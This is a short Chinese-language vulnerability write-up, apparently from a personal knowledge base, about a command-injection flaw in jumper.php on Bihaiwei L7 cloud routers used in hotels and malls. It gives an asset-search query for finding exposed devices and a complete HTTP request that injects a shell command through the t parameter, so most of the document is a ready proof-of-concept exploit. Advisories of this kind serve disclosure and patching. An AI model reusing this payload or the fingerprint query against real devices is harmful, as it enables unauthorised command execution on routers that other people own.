 # 碧海威 L7多款产品jumper存在命令执行漏洞

# 一、漏洞简介
碧海威L7网络产品是为酒店、度假村、商场和车站等商用无线管理者独身订造的专用网络设备。设备具备路由、防火墙、流控、无线AC控制器、微信认证等多项功能。碧海威 L7多款产品jumper存在命令执行漏洞

# 二、影响版本
+ 碧海威 L7云路由

# 三、资产测绘
```plain
product="碧海威科技-L7云路由"
```

![1717872509836-9d8192e8-eb1d-418e-b136-d7e256390d0d.png](./img/vNePAYlOhVA2Jyhf/1717872509836-9d8192e8-eb1d-418e-b136-d7e256390d0d-444380.png)

# 四、漏洞复现
```plain
GET /notice/jumper.php?t=;sleep%203 HTTP/1.1
Host: 
Cookie: SESSID=e2cc8cfb14aa1d77ffcfc93204a1d57b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1717873704369-554c7e1b-fc19-438c-b0c1-8c9cff46c2a7.png](./img/vNePAYlOhVA2Jyhf/1717873704369-554c7e1b-fc19-438c-b0c1-8c9cff46c2a7-473227.png)



> 更新: 2024-06-27 09:15:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pcxmpv0re7iyse3f>